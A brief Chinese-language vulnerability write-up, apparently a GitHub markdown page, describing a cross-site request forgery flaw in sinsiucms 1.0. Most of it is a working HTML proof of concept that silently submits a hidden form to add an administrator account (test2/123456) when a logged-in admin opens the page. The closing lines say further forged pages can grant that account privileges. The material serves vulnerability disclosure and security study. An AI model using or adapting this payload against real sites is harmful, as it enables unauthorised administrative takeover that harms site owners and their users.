


### sinsiucms（新秀）

```
版本信息：1.0
```

#### CSRF添加管理员



构造恶意文件

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.81.116:12358/admin.php?/basic/index.html" method="POST">
      <input type="hidden" name="cmd" value="add&#95;admin" />
      <input type="hidden" name="adm&#95;username" value="test2" />
      <input type="hidden" name="adm&#95;password" value="123456" />
      <input type="hidden" name="re&#95;password" value="123456" />
      <script> document.forms[0].submit(); </script>
    </form>
  </body>
</html>
```

管理员在浏览器登录了网站的情况下使用该浏览器访问了该恶意文件，即可成功添加管理员



虽然添加的用户默认没有权限，但是还可以构造恶意文件使管理员给新增的用户添加权限。

